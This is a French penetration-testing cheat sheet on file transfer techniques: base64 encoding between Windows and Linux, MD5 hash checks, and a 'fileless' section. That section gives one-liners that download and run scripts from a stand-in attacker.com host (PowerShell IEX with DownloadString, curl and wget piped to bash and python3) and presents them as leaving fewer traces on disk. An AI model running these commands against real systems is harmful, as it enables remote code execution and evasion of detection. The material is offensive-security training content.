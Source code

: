 # Techniques Universelles de Transfert

## Encodage/Décodage Base64

L'encodage base64 permet de convertir un fichier binaire en texte ASCII, facilitant son transfert via des canaux textuels.

### Windows à Windows/Linux

```powershell
# Encodage sur la machine source
[Convert]::ToBase64String((Get-Content -Path "C:\path\to\file.exe" -Encoding Byte)) | Set-Content file.txt

# Décodage sur la machine cible (Windows)
[IO.File]::WriteAllBytes("C:\path\to\decoded.exe", [Convert]::FromBase64String((Get-Content -Path "file.txt")))

# Décodage sur la machine cible (Linux)
cat file.txt | base64 -d > decoded.exe
```

### Linux à Linux/Windows

```bash
# Encodage sur la machine source
cat file.bin | base64 -w 0 > file.txt

# Décodage sur la machine cible (Linux)
cat file.txt | base64 -d > file.bin

# Décodage sur la machine cible (Windows PowerShell)
[IO.File]::WriteAllBytes("file.bin", [Convert]::FromBase64String((Get-Content -Path "file.txt")))
```

## Vérification d'Intégrité

Toujours vérifier l'intégrité des fichiers transférés pour s'assurer qu'ils n'ont pas été altérés.

### Windows

```powershell
# Calculer le hash sur la machine source
Get-FileHash -Path C:\path\to\file.exe -Algorithm MD5

# Vérifier le hash sur la machine cible
Get-FileHash -Path C:\path\to\file.exe -Algorithm MD5
```

### Linux

```bash
# Calculer le hash sur la machine source
md5sum file.bin

# Vérifier le hash sur la machine cible
md5sum file.bin
```

## Transferts Fileless

Les transferts fileless permettent d'exécuter du code sans écrire sur le disque.

### Windows (PowerShell)

```powershell
# Télécharger et exécuter en mémoire
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1')

# Alternative
(New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1') | IEX
```

### Linux (Bash)

```bash
# Télécharger et exécuter directement
curl -s http://attacker.com/script.sh | bash

# Alternative avec wget
wget -qO- http://attacker.com/script.py | python3
```

## Points Importants

- Toujours vérifier les hashes lors de transferts critiques
- Sur les systèmes restreints, l'encodage base64 est souvent disponible
- Les transferts fileless réduisent les traces sur le disque
- Préférer des méthodes chiffrées lorsque les données sont sensibles
- Tester diverses méthodes en fonction des restrictions du système